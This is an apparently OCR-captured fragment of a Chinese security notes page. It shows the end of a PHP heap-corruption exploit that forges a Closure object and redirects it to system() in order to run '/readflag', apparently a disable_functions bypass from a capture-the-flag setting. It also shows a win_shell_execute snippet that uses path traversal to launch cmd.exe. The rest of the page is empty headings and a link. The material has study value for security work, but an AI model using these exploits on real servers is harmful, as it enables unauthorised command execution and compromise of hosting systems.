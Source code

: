 ```php
echo "Closure Object: " . bin2hex($closure_object) . "\n";
write(0x28, "\x06");
if(!($unknown_func = get_basic_funcs($std_object_handlers))) {
die("Couldn't determine funcs address");
}
echo "Find func's adress: " . $unknown_func[1] . " -> " . $unknown_func[0] .
"\n";
if(!($system_address = getSystem($unknown_func))) {
die("Couldn't determine system address");
}
echo "Find system's handler: " . $system_address . "\n";
for ($i = 0;$i < (0x130 / 0x08);$i++) {
write(0x308 + 0x08 * ($i + 1), leak2($prefix . s2b($closure_object, 0x08 *
$i)));
}
$abc[0x308 + 0x40] = "\x01";
write(0x308 + 0x70, hex2bin($system_address));
write(0x10, $prefix . hex2bin(dechex(s2n($php_heap) + 0x18 + 0x308 + 0x08)));
echo "Fake Closure Object Address: " . bin2hex($prefix .
hex2bin(str_pad(dechex(s2n($php_heap) + 0x18 + 0x308 + 0x08), 8, "0",
STR_PAD_LEFT))) . "\n";
($helper -> a)("/readflag");
```







## win_shell_execute

```php
if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\\..\\..\\..\\windows\\system32\\cmd.exe");

```



## ImageMagick





## 推荐网址

https://www.freebuf.com/articles/web/169156.html







## 参考文章
